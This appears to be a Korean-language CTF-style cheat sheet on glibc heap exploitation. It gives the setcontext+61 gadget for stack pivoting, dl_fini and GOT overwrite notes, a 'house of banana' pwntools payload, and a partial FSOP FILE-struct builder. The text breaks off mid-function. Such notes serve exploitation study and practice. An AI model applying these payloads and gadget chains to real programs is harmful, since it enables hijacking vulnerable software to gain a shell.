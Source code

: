 ## Useful Gadget
### exit function gadget
### setcontext+61 gadget
```
mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
```
위 가젯으로 `hook` 들을 변조하고, `rdx + 0x20`에 아래의 `setcontext+61` 가젯을 넣으면 rsp를 포함한 대부분의 레지스터 컨트롤이 가능하다.
```
   0x54f5d <setcontext+61>:     mov    rsp,QWORD PTR [rdx+0xa0]
   0x54f64 <setcontext+68>:     mov    rbx,QWORD PTR [rdx+0x80]
   0x54f6b <setcontext+75>:     mov    rbp,QWORD PTR [rdx+0x78]
   0x54f6f <setcontext+79>:     mov    r12,QWORD PTR [rdx+0x48]
   0x54f73 <setcontext+83>:     mov    r13,QWORD PTR [rdx+0x50]
   0x54f77 <setcontext+87>:     mov    r14,QWORD PTR [rdx+0x58]
   0x54f7b <setcontext+91>:     mov    r15,QWORD PTR [rdx+0x60]
   0x54f7f <setcontext+95>:     test   DWORD PTR fs:0x48,0x2
   0x54f8b <setcontext+107>:    je     0x55046 <setcontext+294>

   0x55046 <setcontext+294>:    mov    rcx,QWORD PTR [rdx+0xa8]
   0x5504d <setcontext+301>:    push   rcx
   0x5504e <setcontext+302>:    mov    rsi,QWORD PTR [rdx+0x70]
   0x55052 <setcontext+306>:    mov    rdi,QWORD PTR [rdx+0x68]
   0x55056 <setcontext+310>:    mov    rcx,QWORD PTR [rdx+0x98]
   0x5505d <setcontext+317>:    mov    r8,QWORD PTR [rdx+0x28]
   0x55061 <setcontext+321>:    mov    r9,QWORD PTR [rdx+0x30]
   0x55065 <setcontext+325>:    mov    rdx,QWORD PTR [rdx+0x88]
   0x5506c <setcontext+332>:    xor    eax,eax
   0x5506e <setcontext+334>:    ret
```
## Useful after glibc 2.35
### libc GOT overwrite

### dl_fini overwrite
- libc.so.6의 `run_exit_handlers` 함수에서 ld의 `dl_fini` 함수를 부름.
- `dl_fini` 함수에서 ld의 특정 위치에서 값을 가져와 호출하기 때문에, 이를 변조하면 쉘을 얻을 수 있다.
### house of banana
```py
banana = libc_base + 0x233000 + 0x3a000 + 0x12e0 + 0x1000*-7
log.info(hex(banana))
log.info(hex(encrypt(banana)))
add(1, 0xa0, b"\xff"*0x80+p64(0)+p64(0x31)+p64(encrypt(banana)))
add(3, 0x20, p64(encrypt(banana)))
add(4, 0x20, b"x")
add(5, 0x20, p64(banana+0x8-0x3d70) + p64(libc_base + 0xebcf1))
```
### FSOP
```py
def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
_IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
_IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
_flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
_offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
__pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
```